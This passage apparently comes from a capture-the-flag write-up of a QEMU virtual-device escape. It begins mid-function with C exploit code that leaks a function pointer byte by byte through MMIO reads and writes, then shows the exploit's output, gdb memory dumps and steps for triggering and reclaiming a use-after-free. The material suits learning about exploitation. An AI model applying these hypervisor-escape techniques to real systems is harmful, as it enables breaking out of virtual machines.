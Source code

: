 ```
                char cur_chr = (tmp >> ((k-1)*8)) & 0xff;
                mmio_write(0x4, cur_chr);
            }
            
            mmio_write(0x4, v);
            uint32_t cur_idx = mmio_read(0x14);
            if(cur_idx == 0){
                continue;
            }
            else{
                // else we have the right value
                pointer = (pointer | (v << (t * 8)));
                printf("%p\n", (void*)pointer);
                break;
            }               
        }
    }
}


/ # ./exp
mmio_mem @ 0x7fe3865a2000
user buff virtual address: 0x7fe3865a1000
user buff physical address: 0x3733000
0x5d
0x115d
0xb2115d
0x60b2115d
0xfc60b2115d
0x55fc60b2115d


gdb-peda$ x/20gx 0x55fc60b2115d
0x55fc60b2115d <ctf_dma_read>:	0x30ec8348e5894855	0xe0758948e87d8948
0x55fc60b2116d <ctf_dma_read+16>:	0x48e8458b48dc5589	0x8bf8458b48f84589
0x55fc60b2117d <ctf_dma_read+32>:	0x08e08300000a5080	0xf8458b483074c085
0x55fc60b2118d <ctf_dma_read+48>:	0xc88300000a50808b	0x89f8458b48c28904
```

Then we just trigger the UAF.  
Reclaim the UAFed space with `ctf_add_cmd_data`.  

```
gdb-peda$ p *(CTFState *)$rax
[...]
  pw = "BLUE", 
  cur_req = 0x7f278c2d9a00, 
  dma_read = 0x55d45c51d15d <ctf_dma_read>, 
  dma_write = 0x55d45c51d2ca <ctf_dma_write>, 
  req = {
    head = {
      target_id = 0x0, 
      target_bus = 0x0, 
      lun = 0x0, 
      pad = 0x0, 
      buf_len = 0x6, 
      type = 0x0
    }, 
    cmd_buf = 0x7f278c2cdea0 "\022@"
  }, 
  dma_buf = 0x7f278c756740 "", 
  dma_buf_len = 0x1734, 
  dma_need = 0x1734
}
```